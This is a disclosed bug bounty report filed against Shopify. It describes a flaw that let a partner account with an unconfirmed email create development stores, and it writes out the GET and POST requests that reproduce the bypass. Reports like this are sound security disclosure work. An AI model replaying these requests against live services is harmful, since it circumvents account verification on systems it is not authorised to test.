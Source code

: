 # Add store to new partner account without confirming email address.

## Report Details
- **Report ID**: 633371
- **URL**: https://hackerone.com/reports/633371
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-07-02T00:25:53.340Z
- **Disclosed**: 2020-01-02T15:14:03.756Z

## Reporter
- **Username**: jmp_35p
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Details
When a someone signs up for a new account on partners.shopify.com they are asked to confirm their email address before they can do anything and by anything I mean add stores, invite members, use 
affiliate tools and so on. Apparently they can leverage an issue on partners.shopify.com to create stores on app.shopify.com without confirming their email address.

Setup
1. A new test account on partners.shopify.com.
2. Don't confirm email after signing up.
3. A partner account ID - say 1234
4. Shop name - say attacker

Step to reproduce.
1. While logged in send the following to the server to obtain an access token
GET /1234/stores/signup_object/dev_store 
Host: partners.shopify.com
2. You should get a request similar to {"extra":{"affiliate_shop":"eyJfcmFpbHMiOnsibWVzc2FnZSI6ImV5SndiR0Z1WDNOd1pXTWlPbn....."},"signup_source":"development shop","signup_types":["affiliate_shop"],"previous_page":"https://partners.shopify.com/1234/stores"}
3. Finally, to create the shop, do the following:
POST /services/signup/create HTTP/1.1
Host: app.shopify.com
....
<snipped>
....
_orig_referrer=https%3A%2F%2Fpartners.shopify.com%2F1234%2Fstores%2Fnew%3Fstore_type%3Ddev_store
_y=&ref=&ssid=&source=&source_url=&signup_code=&signup_source=development+shop&signup_source_details=build_store_for_client&forwarded_host=&signup_page=&signup_locale=&signup%5Bshop_name%5D=attacker&signup%5Bsubdomain%5D=&signup%5Bfirst_name%5D=&signup%5Blast_name%5D=&signup%5Bemail%5D=attacker%40domain.com&signup%5Bpassword%5D={shop-password-here}&signup%5Bconfirm_password%5D={shop_password_here}signup%5Baddress1%5D=Beverly+Hills&signup%5Bcity%5D=Los+Angeles&signup%5Bprovince%5D=CA&signup%5Bzip%5D=90210&signup%5Bcountry%5D=US&signup%5Bphone%5D=&signup%5Bpos%5D=&signup%5Bextra%5D%5Baffiliate_shop%5D={access_token_here}&signup%5Bextra%5D%5Borganization_id%5D=1234&signup%5Bextra%5D%5Bpartner_test_shop%5D=&signup%5Bsignup_types%5D%5B%5D=affiliate_shop

Note: Every occurrence of "1234" should be replaced with the partner account ID created above. In case you have troubles reproducing the issue I will be glad to help out.

## Impact

A user can still find a way around stores creation without confirm email first.

## Attachments
No attachments
